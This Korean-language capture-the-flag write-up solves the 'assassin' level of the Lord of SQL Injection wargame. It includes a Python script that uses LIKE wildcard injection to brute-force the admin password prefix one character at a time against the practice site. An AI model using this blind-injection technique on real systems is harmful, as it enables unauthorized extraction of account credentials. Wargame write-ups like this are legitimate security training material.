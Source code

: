 ```yaml
---
title: LOS - 15번 assassin
category: Lord of SQL Injection
---
```


# [15] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F4y2Uz%2Fbtrnlsurpq9%2FGK4iDgR7Dsvjz5D8GAtD11%2Fimg.png">

## 풀이

또 새로운 유형이다.

<br> 

싱글쿼터 필터링을 우회할 방법이 딱히 보이지 않는다.

이 경우, 아마도 like절의 특성을 이용하여 admin 레코드를 뽑아오는 문제인 것 같았다.

<br>

먼저, like절에 사용되는 패턴에 대해 간단히 표로 정리해보았다.


<table style="border-collapse: collapse; width: 100%;" border="1" data-ke-align="alignLeft" data-ke-style="style13">
<tbody>
<tr>
<td style="width: 50.2326%; text-align: center;" colspan="2">SELECT * FROM 테이블 WHERE 컬럼 LIKE [PATTERN]</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%</td>
<td style="width: 49.7674%; text-align: center;">모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">_</td>
<td style="width: 49.7674%; text-align: center;">한 글자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">A%</td>
<td style="width: 49.7674%; text-align: center;">A로 시작하는 모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%A</td>
<td style="width: 49.7674%; text-align: center;">A로 끝나는 모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%A%</td>
<td style="width: 49.7674%; text-align: center;">A를 포함하는 모든 문자</td>
</tr>
</tbody>
</table>

<br>

패턴을 살펴보니, pw=% 를 입력할 시 해당 테이블의 첫번째 레코드를 뽑아오게 될 것 같았다.

(∵ 모든 데이터가 해당 조건을 만족하므로)

<br>

보통 테이블의 첫번째 레코드는 admin 계정이기 때문에 설마하는 마음으로 한번 입력해봤다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZhKZn%2FbtrnjE9XUK5%2F1pVZviULToqZHTmyKVECv1%2Fimg.png">

<br>

첫번째 레코드는 guest 계정이었다.

<br>

어떻게 admin을 뽑아올 지 고민한 결과.. 내리게 된 결론은 Brute Force 였다.

pw의 첫번째 자리에 0% ~ Z% 모든 경우의 수를 대입하여 Hello admin이 뜨는 경우를 찾는 것이다.

<br>

다만 이 방법을 사용할 때는 반드시 고려해야할 점이 있는데,

guest 계정과 admin 계정의 pw 앞부분이 겹칠 수 있다는 점이다.

<br>

때문에 적절한 대처 방법이 필요한데... 자세한 내용은 아래의 코드를 보면서 설명한다.

<br>

다음은 이번 문제를 풀기 위해 짜본 **Python 자동화 코드**이다.

```python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookie = "spin7uv9vl2fjnjet0tsug5eb6"
head = {"PHPSESSID":f"{cookie}"}

guest = ""
admin = ""
finish = False

print("💘 Brute Force를 시작합니다")

for len in range(1, 30):
    if (finish==True):
        break
    print(f"{len}번째 문자에 대해 검색중입니다..")
    for ran in range(48, 127):
        search = guest+chr(ran)
        param = f"?pw={search}%"
        my_url = url+param
        res = requests.get(my_url, cookies=head)
        if ("Hello admin" in res.text):
            admin = search+"%"
            print(f"👏 적절한 검색어는 {admin}입니다!")
            finish = True
            break
        elif ("Hello guest" in res.text):
            guest += chr(ran)
            break
```

[0] 먼저, 빈 문자열인 guest와 admin을 선언해준다.

<br>

[1-1] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest(빈 문자열)+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[1-2] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 admin 계정과 guest 계정의 pw 첫번째 문자가 겹친다는 뜻이다. 둘의 문자가 같을 시 테이블 상 첫번째 레코드인 guest 계정이 fetch 되기 때문이다.

<br>

[2-1] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[2-2] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- 첫번째 루프에서와 마찬가지로, Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 두 계정의 pw 두번째 문자가 겹친다는 뜻이다.

<br>

이하는 동일한 로직으로 반복된다.

결국 해당 코드는 admin과 guest의 pw가 달라지는 지점의 admin의 앞자리를 출력하게 된다.

<br>

예를 들어,

admin pw : 123abc

guest pw : 123xyz

인 경우,

123a% 를 출력하고 종료되는 것이다.

출력문은 admin의 pw에 대한 적절한 검색어로 사용될 수 있다.

<br>

다음은 해당 코드의 실행 결과다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmrP39%2FbtrnrjiteWP%2Flw2kiIcXMwaBwDksWvchJk%2Fimg.png">

Brute Force 결과, 적절한 검색어는 `902%` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fna0E6%2FbtrnoCXQ4Zi%2FntHXLfVKKBgbIcuxuF6Ky1%2Fimg.png">